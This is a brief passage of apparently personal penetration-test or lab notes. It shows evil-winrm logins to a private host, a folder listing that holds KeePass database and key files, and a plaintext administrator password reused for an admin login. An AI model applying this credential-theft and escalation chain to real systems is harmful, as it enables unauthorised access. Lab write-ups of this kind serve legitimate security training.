 
```rust
evil-winrm -i 172.16.0.32 -u calde -p UaqcsvzMxEjZ
```

Identify the keepass files and download them to your machine

```rust
*Evil-WinRM* PS C:\Users\calde\Documents> ls


    Directory: C:\Users\calde\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/16/2024  10:22 AM                p3ta
-a----         12/3/2023  10:31 AM           1854 Database.kdbx
-a----         12/3/2023  10:27 AM            240 Database.keyx
-a----         12/3/2023  10:29 AM         315447 keepass.pdf
```

![[Pasted image 20240516132944.png]]

```rust
administrator : Vwgdn23cpBQM
```

```rust
evil-winrm -i 172.16.0.32 -u administrator -p Vwgdn23cpBQM
```